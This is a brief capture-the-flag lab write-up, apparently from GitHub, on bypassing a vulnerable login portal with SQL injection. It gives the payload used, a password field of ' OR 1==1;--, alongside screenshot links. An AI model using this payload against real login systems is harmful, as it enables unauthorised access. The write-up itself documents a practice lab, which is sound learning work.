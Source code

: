 # Overview
The target is a login portal which is vulnerable to SQLi
<img width="1919" height="489" alt="Screenshot_2025-09-24_14-59-50" src="https://github.com/user-attachments/assets/df9a3043-824f-4cea-9407-77fe7177b060" />

# Actions
So I already checked the inputs and notice that this room is kinda identical to the `More SQLi`. So I still made use of my payloads
```
username: radom
password : ' OR 1==1;--
```
<img width="1045" height="192" alt="Screenshot_2025-09-24_14-54-04" src="https://github.com/user-attachments/assets/0d84c19f-43b9-4a91-ab1a-1a6055b22117" />
<img width="1124" height="93" alt="Screenshot_2025-09-24_14-54-34" src="https://github.com/user-attachments/assets/e33ba25a-4593-4c79-afd7-fce8198870b1" />
Happy Hacking!!!
